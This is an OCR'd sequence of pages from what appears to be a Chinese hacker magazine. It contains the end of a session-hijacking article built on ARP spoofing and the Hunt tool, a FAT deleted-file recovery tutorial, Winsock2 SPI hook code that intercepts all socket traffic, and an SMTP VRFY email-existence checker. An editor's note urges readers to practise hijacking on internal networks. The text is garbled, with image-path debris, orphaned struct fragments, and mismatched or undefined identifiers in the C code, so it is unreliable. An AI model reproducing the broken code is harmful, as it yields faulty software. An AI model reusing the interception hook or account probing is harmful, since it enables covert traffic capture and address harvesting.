

图 4



图 5



正如前边所说的，这种会话劫持方式先进行 ARP 欺骗，然后再劫持，所以 ACK 风暴是不会出现的；而且，这种方式要比注射式会话劫持危害更大，从上文中我想就能看出来，就不必再多说什么了。还有一些如 Sniffer 等功能，都很简单，由于已不在本文范畴，故不再多说。

# 会话劫持防范方法

防范会话劫持是一个比较大的工程。首先应该使用交换式网络替代共享式网络，虽然像 Hunt 这样的工具可以在交换环境中实现会话劫持，但还是应该使用交换式网络替代共享式网络，因为这样可以防范最基本的嗅探攻击。然而，最根本的解决办法是采用加密通信，使用 SSH 代替 Telnet，使用 SSL 代替 HTTP，或者干脆使用 IPSec/VPN，这样会话劫持就无用武之地了。其次，监视网络流量，如发现网络中出现大量的 ACK 包，则有可能已被进行了会话劫持攻击。

还有一点是比较重要的，就是防范 ARP 欺骗。实现中间人攻击的前提是 ARP 欺骗，如能阻止攻击者进行 ARP 欺骗，中间人攻击还怎样进行？！如何防范 ARP 欺骗，《黑客防线》有过详细的介绍，可以参考 2003 年第 9 期杂志。

## 编后

对于渗透内部网络，会话劫持确实是一种比较有效的方法，我们应该掌握。本文的实践性很强，大家可以动手试试，掌握此技术。Hunt 这个强悍的工具使用方法很简单，但却可以把会话劫持发挥得淋漓尽致，你尝试了吗？

icefire，日常的计算机使用过程中，我们经常会由于误操作或者其他的原因对硬盘上的文件进行了错误的删除操作，例如清空回收站、黑客入侵等。而 Windows 操作系统并未提供很强的恢复被删除文件的功能，因此，研究被删除文件的恢复技术在 Windows 平台上很有意义——上次 wtf 的一块硬盘数据丢了，必须得恢复，我们鼓捣半天，软件层能恢复的都搞定了，后来硬件层的还是得送去数据恢复公司——1W 块啊！就是 JM 的数据！老天啊，太黑了！

# 找回 Windows 95/98/2000/XP 下被删除的文件

◎ 翻译 / 木头

首先要明白一个道理：并不是所有被删除的文件都是“可恢复”的，要理解什么文件是“可恢复的”和什么文件是“不可恢复的”，需要从 Windows 管理文件的机制说起——其实不光是 Windows，对于任何一个结构完整、具备一定实用性的操作系统而言，文件系统的管理都是该系统的核心功能之一。我们常听说的 FAT、FAT32、NTFS 等“文件系统类型”的名词，代表的是实际文件数据在硬盘上的组织方式。而操作系统的文件管理模块所具有的功能，就是识别出数据在硬盘上具体的组织方式，并按照该方式的规范来读取硬盘上的数据。以上的概念可以用图 1 来表示：

硬盘上的每一个文件都对应了其相应的文件目录中的一个“项”，也就是说，当我们在硬盘上建立一个新的文件的时候，操作系统实际上完成了两步的操作：

- 为该文件在文件目录中“立项”
- 将该文件的实际数据写入硬盘

而当我们进行删除文件的操作时，操作系统的操作则一般仅仅是将我们建立该文件时，在文件目录中立的项删掉，而并不是真的将文件中所有的数据都从硬盘中 Delete 掉。只有在操作系统认为整个系统已经到了“缺乏存储空间”的时候，才会真正地大删删除文件，释放硬盘空间。因此，按照上面的理论，所谓“可恢复”的文件实际上指的就是仅被操作系统删掉文件目录，而并未删掉文件数据的那些文件。

## 直接读取硬盘数据

现在问题已经很清楚：我们的目标就是要将硬盘上那些已经没有对应目录的文件找回来。如何找？普通的通过操作系统的“文件管理模块”进行的文件操作肯定已经不行了。我们需要的是对硬盘数据的直接存取——换句话说，我们用自己的程序来解析硬盘上的 FAT32、NTFS 等文件格式，如图 2 所示。





要获得对硬盘的“直接存取权”，在不同的操作系统下，采取的方式是不同的：

- Win95/98 系统下，可以通过 DPMI（保护模式访问界面）机制，将 32 位程序切入 16 位程序的地址空间，直接调用 BIOS Int13 号调用，访问硬盘。
- Win2000/XP 系统下，可以通过 CreateFile 创建文件 API，并指定物理硬盘逻辑参数，得到物理硬盘的“使用句柄”；通过该句柄，对硬盘数据进行直接读取。

该结构中的 RootStartCluster 指定了系统从硬盘上的哪个“簇”开始引导。

硬盘上的第一个区中，则包含了整个硬盘的分区表信息：

# 恢复文件的过程

一旦我们取得了对硬盘的直接存取权，就可以开始我们的“文件恢复”操作，整个操作可以分为如下 3 步：

- 搜索整个硬盘空间，列出可用文件表
- 由用户选择欲恢复的文件
- 将该文件在文件目录表中立项

整个过程最核心的操作就是我们需要自己解析硬盘上的各种文件格式的数据，而在解析之前，我们首先需要得到系统的硬盘列表，然后是特定硬盘的分区列表，最后才是分区的文件格式表。这个过程牵涉到一些很 Boring 也很“敏感”的数据结构，可以说，整个“恢复删除文件”的过程就是与这些数据结构不停地交互、解析、操作的过程。

# 琐碎的结构

首先是系统启动后，硬盘的主引导区结构：

```c
typedef struct {
    char jmp[3];                // 三字节的转跳
    char OEM_Name[8];           // OEM 名称
    WORD BytesPerSector;        // 该扇区字节数
    unsigned char SectorsPerCluster; // 每簇扇区数
    WORD ReservedSectors;       // 保留扇区
    unsigned char NumFATs;      // FAT 数目
    WORD NumRoot;               // 根数目
    WORD TotalSectors;          // 扇区总数
    unsigned char MediaDB;
    WORD SectorsPerFAT;         // 每 FAT 扇区数
    WORD SectorsPerTrack;       // 每磁道扇区数
    WORD NumHeads;
    DWORD NumHidSect;
    DWORD ExtendedTotalSectors;
    DWORD ExtendedSectorsPerFAT;
    WORD Flags;                 // 标志
    WORD Version;               // 版本
    DWORD RootStartCluster;
    WORD FSInfoSec;
    WORD BkupBootSec;
    WORD Reserved;
} BOOT;
```

```c
typedef struct {
    BYTE BootInd;
    BYTE Head;          // 磁头
    BYTE Sector;        // 扇区
    BYTE Cylinder;
    BYTE SysInd;
    BYTE LastHead;
    BYTE LastSector;
    BYTE LastCylinder;
    DWORD RelativeSector;
    DWORD NumberSectors;
} PARTITION;
```

如果 `BootInd = 0x80`，则表示该区为活动分区，否则该值为 0。

`SysInd` 则标示了该区的文件系统：各常量定义如下：

```c
#define PART_UNKNOWN 0x00      // 未知
#define PART_DOS2_FAT 0x01     // 12 位 FAT
#define PART_DOS3_FAT 0x04     // 16 位 FAT，分区小于 32M
#define PART_EXTENDED 0x05     // 扩展 MS-DOS 分区
#define PART_DOS4_FAT 0x06     // 16 位 FAT，分区大于等于 32M
#define PART_NTFS 0x07         // NTFS
#define PART_DOS32 0x0B        // 32 位 FAT，分区最大 2047GB
#define PART_DOS32X 0x0C       // 与 0x0B 意义相同，不过可以使用扩展 Int13 访问
#define PART_DOSX13 0x0E       // 与 0x06 意义相同，不过可以使用扩展 Int13 访问
#define PART_DOSX13X 0x0F      // 与 0x05 意义相同，不过可以使用扩展 Int13 访问
```

每一个分区表，都会有一个自己的“扩展分区表”，详细描述了该分区的信息：

```c
typedef struct {
    WORD Drive;
    WORD Cylinder;
    WORD Head;
    WORD Sector;
    DWORD NumSectors;
}
```

```c
WORD Type; // 类型
WORD FatType; // FAT 类型
WORD FatRelativeSector;
DWORD NumFatSectors;
char *Lfn;
DWORD RelativeSector;
WORD TotalHeads;
DWORD StartCluster;
WORD SectorsPerTrack;
WORD SectorsPerCluster;
WORD Attributes;
DWORD TotalSectors;
DWORD NTRelativeSector;
DWORD DataAreaSector;
BOOL Flag;
}DRIVEPACKET;
```

```c
char TmpStr[26] = "\\\\.\\PHYSICALDRIVE0";
TmpStr[17] = i + '0';
if((hDisk[i+0x80] = CreateFile(TmpStr,
    GENERIC_READ|GENERIC_WRITE,
    FILE_SHARE_READ,
    NULL,
    OPEN_EXISTING,
    FILE_FLAG_NO_BUFFERING,
    NULL)) == INVALID_HANDLE_VALUE)
```

# 具体的程序

有了以上这些描述硬盘数据的结构，我们现在已经能开始着手进行编码工作，为了说明的方便，下面的代码全部针对 WinNT 系列，Win95/98 系列的操作可以参见具体源码——它们与 DOS 时代变化不大——一些针对 Thunk 的调用除外。

- 第一步：得到整个硬盘的分区表和目录结构；
- 第二步：通过一定的用户界面将其展示给用户，具体的界面形式可以选用 TreeView 或者 ListView 等形式，并且等待用户的选择恢复文件操作。
- 第三步：用户选定了欲恢复的文件，进行实质性的恢复文件操作。

操作系统在删除文件时，仅仅将 FAT 表项的入口一字节置为 `0xE5`，因此，我们只需要找到欲删除文件的 FAT 表项，然后根据该表项中所描述的文件数据在硬盘上具体的占位信息，做一次递归调用，即可完成恢复文件的工作。详细的实现代码可以参见本文附带的源代码。

光盘中附有完整代码，需要注意的是，该代码包含有驱动部分，完成磁盘读写，因为驱动运行在 ring 0，所以可以完成应用程序不能完成的底层工作，请读者自行研究。

icefire：说道封包获取，也许你会感到陌生，但说到网络游戏外挂编写原理和反外挂，大家一定会很兴奋，是的，聪明的你一定可以想到，它们之间有一种必然的联系，封包的截获将是成功的第一步，而反外挂也同样要深入到这方面。虽然网上也有封包截获工具（其实防火墙本身就有此功能），但能了解其截取与转发机制完全是必要的，下面就为大家解释一下这种技术。

# 让外挂不再疯狂

文／乱世天使



## ——Winsock2 SPI 网络封包截获技术

- 难度等级：中
- 适用读者：网络编程爱好人员
- 前置知识：基本网络编程方法和常见 API 的使用

众所周知，网络封包的截获技术分为几种，例如：过滤驱动程序、NDIS 中间驱动程序以及 Winsock2 SPI 截取技术等等。其中要数 Winsock2 使用最为广泛，下面就向大家介绍 Winsock2 封包截获技术的很大一个特点，就是 Winsock2 在 Winsock1.1 的基础上引入了 SPI 技术。

# Winsock2 之关键函数

Winsock2 的函数多是以 WSP 开头的，它们都是在 WS2_32.DLL 中实现的，而我们熟悉的 Winsock 扩展 API 是以 WSA 开头的，因为 Winsock 的 API 在 SPI 函数都有相互对应，你甚至可以把这些函数当作是 API 函数来使用。
```

# 技术实现之关键

程序和其他钩子函数功能类似，并且将以动态链接库（DLL）文件实现，Winsock 钩子用来截获 Winsock 调用，从而拦截 TCP/IP 封包，并做相应处理。实现 DLL 的安装需要修改注册表，而不是替换系统的 DLL 函数，这和过去的一些资料是不同的，这种方法通用性比较高！

为了实际演示，我特别做了一个类似的程序，如果大家有一定基础，相信看了下面的文章后，反外挂也就不是问题了。程序基本流程：

- 1. 系统调用本 DLL，启动 WSPStartup 函数；
- 2. WSPStartup 将把 30 个相关函数设置成我们的函数，实现函数接挂；
- 3. 在各个函数中实现我们想要的功能，这部分读者可以随心所欲了！

下面我来介绍几个主要核心函数：

**WSPStartup：** WSPStartup 是 Windows Sockets 应用程序调用 SPI 的初始化函数，我们称之为服务提供者的标准入口函数，主要是转换 lpProcTable 结构的 30 个指针，设置成自己的。这样，相应的函数请求会首先经过我们自己的函数，然后我们的函数可以作适当的处理，最后再将数据流（封包）转给原来的服务提供者函数：

```c
int WSPAPI WSPStartup(
    WORD wVersionRequested,
    LPWSPDATA lpWSPData,
    LPWSAPROTOCOL_INFOW lpProtocolInfo,
    WSPUPCALLTABLE upcallTable,
    LPWSPPROC_TABLE lpProcTable
)
{
    OutputDebugString(_T("WSPStartup ..."));

    TCHAR LibraryPath[512];
    LPWSPSTARTUP WSPStartupFunc = NULL;
    HMODULE hLibraryHandle = NULL;
    INT Error = 0;

    // LoadLibrary、GetProcAddress 获取 DLL 与入口地址
    // GetDLL 搜索路径中的 DLL 文件
    // GetProcAddress 用于从载入的模块中取得 WSPStartup 的函数地址
    if (!GetDLL(lpProtocolInfo, LibraryPath))
        return WSAEPROVIDERFAILEDINIT;
}
```

```c
if ((hLibraryHandle = LoadLibrary(LibraryPath)) == NULL ||
    (WSPStartupFunc = (LPWSPSTARTUP)
        GetProcAddress(hLibraryHandle, "WSPStartup")) == NULL)
{
    return WSAEPROVIDERFAILEDINIT;
}

PrintProtocolInfo(lpProtocolInfo, LibraryPath);

if ((Error = WSPStartupFunc(wVersionRequested, lpWSPData,
    lpProtocolInfo, upcallTable, lpProcTable)) != ERROR_SUCCESS)
{
    return ErrorCode;
}

EnterCriticalSection(&gCriticalSection);

// 将 30 个服务函数指针加入到 NextProcTable 变量中保存，
// 只要将这里函数指针赋值为自己改装的地址，
// 那么当有调用这个函数时将首先调用自己的函数进行处理，
// 然后自己的函数完成工作后，再去调用原底层的 30 个函数完成转手操作。

NextProcTable = *lpProcTable;
lpProcTable->lpWSPSocket = WSPSocket;
lpProcTable->lpWSPCloseSocket = WSPCloseSocket;
lpProcTable->lpWSPConnect = WSPConnect;
lpProcTable->lpWSPAccept = WSPAccept;
lpProcTable->lpWSPSend = WSPSend;
lpProcTable->lpWSPSendTo = WSPSendTo;
lpProcTable->lpWSPRecv = WSPRecv;
lpProcTable->lpWSPRecvFrom = WSPRecvFrom;
lpProcTable->lpWSPAddressToString = WSPAddressToString;
lpProcTable->lpWSPAsyncSelect = WSPAsyncSelect;
lpProcTable->lpWSPBind = WSPBind;
lpProcTable->lpWSPCancelBlockingCall = WSPCancelBlockingCall;
lpProcTable->lpWSPCleanup = WSPCleanup;
lpProcTable->lpWSPDuplicateSocket = WSPDuplicateSocket;
lpProcTable->lpWSPEnumNetworkEvents = WSPEnumNetworkEvents;
lpProcTable->lpWSPEventSelect = WSPEventSelect;
lpProcTable->lpWSPGetOverlappedResult = WSPGetOverlappedResult;
lpProcTable->lpWSPGetPeerName = WSPGetPeerName;
lpProcTable->lpWSPGetQOSByName = WSPGetQOSByName;
lpProcTable->lpWSPGetSockName = WSPGetSockName;
lpProcTable->lpWSPGetSockOpt = WSPGetSockOpt;
lpProcTable->lpWSPIoctl = WSPIoctl;
lpProcTable->lpWSPJoinLeaf = WSPJoinLeaf;
lpProcTable->lpWSPListen = WSPListen;
lpProcTable->lpWSPRecvDisconnect = WSPRecvDisconnect;
lpProcTable->lpWSPSelect = WSPSelect;
lpProcTable->lpWSPSendDisconnect = WSPSendDisconnect;
lpProcTable->lpWSPSetSockOpt = WSPSetSockOpt;
lpProcTable->lpWSPShutdown = WSPShutdown;
lpProcTable->lpWSPStringToAddress = WSPStringToAddress;

LeaveCriticalSection(&CriticalSection);
return 0;
```

```c
DWORD dwBufferCount,
LPDWORD lpNumberOfBytesSent,
DWORD dwFlags,
const struct sockaddr FAR * lpTo,
int ToLen,
LPWSAOVERLAPPED lpOverlapped,
LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
LPWSATHREADID lpThreadId,
LPINT lpErrno
```

以下是几个 Winsock 2 服务提供者的几个基本函数原型，作为例子：

WSPSocket 是 Winsock2SPI 的服务函数之一，用来创建 Socket 连接并将创建的 Socket 连接加入 Socket 组。

```c
SOCKET WSPSocket(
    int af,
    int type,
    int protocol, // 协议类型
    LPWSAPROTOCOL_INFOW lpProtocolInfo,
    GROUP g,
    DWORD dwFlags,
    LPINT lpErrno
)
```

面向连接的数据发送，并调用 PrintSocket 来输出封包信息。

```c
int WSPAPI WSPSend(
    SOCKET s, // Socket
    LPWSABUF lpBuffers, // 缓冲区地址
    DWORD dwBufferCount, // 缓冲区数
    LPDWORD lpNumberOfBytesSent, // 发送字节数
    DWORD dwFlags, // 标志
    LPWSAOVERLAPPED lpOverlapped, // 重叠
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine, // 重叠处理设置
    LPWSATHREADID lpThreadId, // 线程ID
    LPINT lpErrno // 错误编号
)
```

同样是面向非连接的数据发送，并调用 PrintSocket 来输出封包信息。

```c
int WSPSendTo(
    SOCKET s,
    LPWSABUF lpBuffers,
    ...
)
```

面向连接的数据接收，主要功能是在接收数据之前，对封包信息进行了解：

```c
int WSPRecv(
    SOCKET s,
    LPWSABUF lpBuffers, // 数据缓冲区地址
    DWORD dwBufferCount, // 缓冲区数目
    LPDWORD lpNumberOfBytesRecvd, // 接收的字节数
    LPDWORD lpFlags,
    LPWSAOVERLAPPED lpOverlapped, // 重叠设置
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
    LPWSATHREADID lpThreadId,
    LPINT lpErrno
)
```

同样是面向非连接的数据接收，主要功能是在接收数据之前，对封包信息进行了解，函数如下：

```c
int WSPRecvFrom(
    SOCKET s,
    LPWSABUF lpBuffers, // 缓冲区地址
    DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesRecvd, // 接收字节数
    LPDWORD lpFlags,
    struct sockaddr FAR * lpFrom,
    LPINT lpFromlen,
    LPWSAOVERLAPPED lpOverlapped, // 重叠
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
    LPWSATHREADID lpThreadId,
    LPINT lpErrno
)
```

其他还有 WSPCloseSocket、WSPConnect、WSPAccept、WSPSend、WSPSendTo、WSPRecv 和 WSPRecvFrom 等一系列函数，大家可以查找有关手册。其实用法和 Winsock API 类似。

# 运行调试

在加入普通模块后，运用 dbgview.exe 进行调试（网上有下载）。安装后，联网测试，我们就可以看到效果了。SPI 其实就是一种接口，当我们把自己写好的程序安装到系统后，所有的 Winsock 请求会发送到这个程序并由它进行转发等调用……一切 OK！

> Icefire：好啊！期盼已久的真神阿拉终于出现了。我找了半天这样的反外挂技术资料都没找到，没想到今天看到了！一个字：爽！两个字：很爽！三个字：嘿嘿，不说了，再看一遍去！

### tips：封包截获

Internet 用户使用的各种信息服务，其通讯的信息最终均可以归结为以 IP 包为单位的信息传送。IP 包除了包括要传送的数据信息外，还包含有信息要发送到的目的 IP 地址、信息发送的源 IP 地址，以及一些相关的控制信息；当一台路由器收到一个 IP 数据包时，它将根据数据包中的目的 IP 地址项查找路由表，根据查找的结果将此 IP 数据包送往对应端口；下一台 IP 路由器收到此数据包后继续转发，直至发到目的地，路由器之间可以通过路由协议来进行路由信息的交换，从而更新路由表。

互联网是将信息数据打包之后再传送出去的。每个数据包分为头部信息和数据信息两部分。头部信息包括数据包的发送地址和到达地址等。数据信息包括我们在游戏中相关操作的各项信息。那么在做截获封包的过程之前，我们先要知道服务器的 IP 地址和端口号等各种信息，就可以开始进行分析了。

# 编程实现邮件地址有效性检测

文/brain


检测邮件地址的有效性可应用于防止垃圾邮件、用户非法注册等方面，本文将以编程的方式进行探讨，相信能给大家一些启示。

现在有一些 COM 组件可以提供即时邮件查询的功能。它有效地避免了向一个不存在的账户发送邮件的情况。例如，在 ASP 页面里面检查用户输入的邮件地址是否正确，并避免在你的用户数据库里面存储相关的错误信息。以 Virtual Fab Email Address Checker 为例，这是一个开放的免费组件。通过翻译该软件的使用说明，我在功能和应用上对该组件进行了简单的描述，并从编程角度对这个组件的部分代码进行了分析。

# 工作原理

让我们首先来看一下这个组件是如何进行工作的。首先给定一个 E-mail 地址（例如：someone@somewhere.com），然后它会执行如下的步骤：

- 1. 将用户名（someone）从域名（somewhere.com）中分离出来；
- 2. 在 DNS（域名服务器）上进行查询：域名是否可用；
- 3. 如果 DNS 做出响应，它将在服务器上对 MX 进行查询（Mail Exchanger，邮件交换服务器），并试着与在这个域中每一个 MX 建立会话，直到建立会话成功；
- 4. 通过使用 SMTP 协议，它使用 VRFY 命令和 Mail handshake（HELO，MAIL FROM，RCPT TO）来验证用户名在该域中的存在；
- 5. 随后组件将返回测试的结果，并给出 4 种可能的结果：
  - “域”不存在。服务器做出否定响应。
  - “域”存在，但是无法查询用户名（见注释）。服务器做出部分确认响应。
  - “域”存在，但是用户名不存在。服务器做出否定响应。
  - “域”和用户名都存在。服务器做出完全确认响应。

> **小提示**
>
> 如果“域”存在，但是 MX（邮件交换服务器）并不存在于该域中（典型特征是二级域名由 ISP 掌握着）；这样通过 SMTP 协议将会无效，因为那些服务器被指派去接受该域中的邮件，并且根本不会检查用户名。所以组件的程序设计，从这里跳出并返回部分确认响应。

# 组件特征

- 在本地机器上查找 DNS。所以必须保持计算机与互联网的连接，以确保组件的正常工作。
- 通过 SimpleDNSResolver 组件（见下文）发送 DNS 请求。
- 使用 UDP 协议接收 DNS 响应。
- 经过标准的 winsock.ocx 接口，建立 SMTP 会话。
- 提供小型的可执行文件（编译为一个小于 50KB 的 ActiveX DLL 动态连接库文件）。
- 无任何用户接口，需要 ActiveX 组件支持的语言（例如，VBScript、ASP、VC++ 等等）。
- 使用 VB6.0 Service Pack 4（已测试）环境下编译，当然也可以在以前支持 winsock.ocx 的 VB 版本中编译（例如 VB5.0）。

# 安装方法

- 将压缩包释放到你选定的目录中；
- 将 VfabEmailUtils.DLL 拷贝到你的系统目录下：
  - 对于 Windows NT：`C:\WINNT\SYSTEM32\`
  - 对于 Windows 9x：`C:\WINDOWS\SYSTEM\`
- 在注册表中注册组件：在“运行”中输入：`regsvr32 c:\winnt\system32\VfabEmailUtils.dll`
- 重要提示：为确保组件的正常运行，你必须安装 Simple DNS Resolver v1.0（Emmanuel Kartmann's）。

DNS Resolver v1.0（Emmanuel Kartmann's）。相关信息，请参看下文。

# 使用方法

- 创建一个组件的应用实例
- 加入属性：

```text
EmailAddr
SmtpTimeOut
DNS Server Address（仅限 Windows 9x）
```

- 调用 CheckDomain 方法
- 测试 Result 属性，如果返回的结果不等于 `vfabInvalidDomain (1)`，则可以进行如下操作
- 调用 CheckUserName 方法
- 然后测试 Result 属性来返回最终结果：

```text
vfabNotVerify = 0
vfabInvalidDomain = 1
vfabValidDomain = 2
vfabValidDomainInvalidAccount = 3
vfabValidDomainValidAccount = 4
```

# 示例代码

```vb
dim oVfab
set oVfab=CreateObject("VFabEmailUtils.EmailCheck")
' 创建对象。
oVfab.EmailAddr = Request.Form("EMAIL")
' 从 ASP 页面获得邮件地址以进行测试，
' 并指派给该对象中的 EmailAddr 属性

oVfab.CheckDomain
' 检查域是否存在
If oVfab.Result <> 1 Then
  ' 如果存在则对用户名进行检测
  oVfab.SmtpTimeOut = 10
